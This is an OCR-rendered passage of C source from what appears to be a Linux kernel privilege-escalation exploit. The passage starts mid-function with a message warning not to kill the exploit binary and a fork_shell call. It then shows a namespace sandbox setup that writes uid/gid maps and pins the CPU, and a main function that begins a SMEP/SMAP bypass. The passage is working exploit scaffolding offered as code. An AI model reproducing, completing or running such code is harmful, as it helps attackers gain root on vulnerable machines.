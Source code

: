         printf("[!] don't kill the exploit binary, the kernel will crash\n");
        // Fork and exec instead of just doing the exec to avoid freeing
        // skbuffs and prevent crashes due to a allocator corruption.
        fork_shell();
    }
    static bool write_file(const char* file, const char* what, ...)
    {
        char buf[1024];
        va_list args;
        va_start(args, what);
        vsnprintf(buf, sizeof(buf), what, args);
        va_end(args);
        buf[sizeof(buf) - 1] = 0;
        int len = strlen(buf);
        int fd = open(file, O_WRONLY | O_CLOEXEC);
        if (fd == -1)
            return false;
        if (write(fd, buf, len) != len) {
            close(fd);
            return false;
        }
        close(fd);
        return true;
    }
    void setup_sandbox() {
        int real_uid = getuid();
        int real_gid = getgid();
            if (unshare(CLONE_NEWUSER) != 0) {
            perror("unshare(CLONE_NEWUSER)");
            exit(EXIT_FAILURE);
        }
            if (unshare(CLONE_NEWNET) != 0) {
            perror("unshare(CLONE_NEWUSER)");
            exit(EXIT_FAILURE);
        }
        if (!write_file("/proc/self/setgroups", "deny")) {
            perror("write_file(/proc/self/set_groups)");
            exit(EXIT_FAILURE);
        }
        if (!write_file("/proc/self/uid_map", "0 %d 1\n", real_uid)){
            perror("write_file(/proc/self/uid_map)");
            exit(EXIT_FAILURE);
        }
        if (!write_file("/proc/self/gid_map", "0 %d 1\n", real_gid)) {
            perror("write_file(/proc/self/gid_map)");
            exit(EXIT_FAILURE);
        }
        cpu_set_t my_set;
        CPU_ZERO(&my_set);
        CPU_SET(0, &my_set);
        if (sched_setaffinity(0, sizeof(my_set), &my_set) != 0) {
            perror("sched_setaffinity()");
            exit(EXIT_FAILURE);
        }
        if (system("/sbin/ifconfig lo up") != 0) {
            perror("system(/sbin/ifconfig lo up)");
            exit(EXIT_FAILURE);
        }
        printf("[.] namespace sandbox setup successfully\n");
    }
    int main() {
        setup_sandbox();
    #if SMEP_SMAP_BYPASS
        disable_smep_smap();